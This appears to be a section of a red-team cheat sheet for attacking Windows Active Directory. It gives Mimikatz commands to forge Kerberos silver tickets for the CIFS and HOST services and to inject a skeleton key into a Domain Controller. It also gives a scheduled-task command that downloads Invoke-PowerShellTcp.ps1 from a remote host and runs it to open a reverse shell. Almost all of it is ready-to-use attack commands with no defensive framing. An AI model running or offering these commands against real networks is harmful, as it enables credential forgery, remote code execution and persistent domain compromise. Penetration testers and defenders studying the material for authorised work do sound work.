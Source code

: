 - Confirm we have access to the Domain Controller as Administrator

```
PS C:\> ls \\<Domain Controller>\c$
```

### Silver Ticket

- Use Mimikatz to craft a silver ticket

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::golden /user:<username for which the TGS is generated> /domain:<Domain FQDN> /sid:<Domain SID> /target:<target server FQDN> /service:<The SPN name of service for which the TGS is to be created> /rc4:<NTLM (RC4) hash of the service account. Use /aes128 and /aes256 for using AES keys> /ptt"'
```

- Use Mimikatz to craft a silver ticket for the CIFS SPN which will allow us to access the file system on the target

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Domain Name> /sid:<Domain SID> /target:<target> /service:CIFS /rc4:<NTLM (RC4) hash of the service account> /ptt"'
```

- Use Mimikatz to craft a silver ticket for the HOST SPN which will allow us to schedule a task on the target

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Domain Name> /sid:<Domain SID> /target:<target> /service:HOST /rc4:<NTLM (RC4) hash of the service account> /ptt"'
```

- Scheule and execute a task (make sure to edit Invoke-PowerShellTcp.ps1 and add a function call down the bottom on the file: Power -Reverse -IPAddress 172.16.100.60 -Port 443)

```
PS C:\> schtasks /create /S <target> /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'"

PS C:\> schtasks /Run /S <target> /TN "STCheck"        # To run the scheduled task
```

### Skeleton Key

- Use Mimikatz to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice (requires Domain Admin privileges)

```
PS C:\> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <Domain Controller>
```

- Access any machine with a valid username and enter the password as "mimikatz" (can access other machines as long as they authenticate with the Domain Controller which has been patched and the Domain Controller is not rebooted)

```
PS C:\> Enter-PSSession -ComputerName <computer name> -Credential <Domain>\Administrator
```
